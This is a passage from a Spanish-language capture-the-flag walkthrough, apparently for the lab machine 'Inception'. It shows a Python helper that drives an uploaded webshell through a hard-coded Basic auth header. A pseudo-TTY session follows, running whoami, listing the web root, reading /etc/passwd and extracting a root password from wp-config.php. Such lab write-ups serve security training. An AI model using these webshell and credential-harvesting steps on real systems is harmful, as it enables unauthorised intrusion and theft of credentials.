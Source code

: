 ```python

        headers = {
                'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
        }

        result = (requests.get('http://10.10.10.67/webdav_test_inception/webshell.php', params=payload, headers=headers, timeout=5).text).strip()
        return result
```
Y ya si lo lanzamos obtenemos una FULL TTY desde una webshell, jugando con mkfifo.

# Intrusion atraves de la utilidad FULL-TTY-Over-HTTP

Lanzamos el script:
```bash
# rlwrap python3 tty_over_http.py                                                                                                                                                                            1 ⚙
whoami
www-data
hostname -I
192.168.0.10
> 
```
Enumeramos el sistema en busca de credenciales e usuarios.
```bash
pwd
/var/www/html
ls -l
total 8044
-rw-r--r-- 1 root     root       17128 May  7  2017 LICENSE.txt
-rw-r--r-- 1 root     root        2307 May  7  2017 README.txt
drwxr-xr-x 6 root     root        4096 May  7  2017 assets
drwxrwxr-x 4 root     root        4096 Nov  6  2017 dompdf
drwxr-xr-x 2 root     root        4096 May  7  2017 images
-rw-r--r-- 1 root     root        2877 Nov  6  2017 index.html
-rw-r--r-- 1 root     root     8184961 Oct 31  2017 latest.tar.gz
drwxr-xr-x 2 www-data www-data    4096 Nov  2 12:36 webdav_test_inception
drwxr-xr-x 5 root     root        4096 Nov  6  2017 wordpress_4.8.3
```

Verificando usuarios en el sistema:
```bash
grep "sh" /etc/passwd
> root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```

Buscamos en el directorio `wordpress_4.8.3` y encontramos un archivo `wp-config.php`
```bash
"root" : "VwPddNh7xMZyDQoByQL4"
```
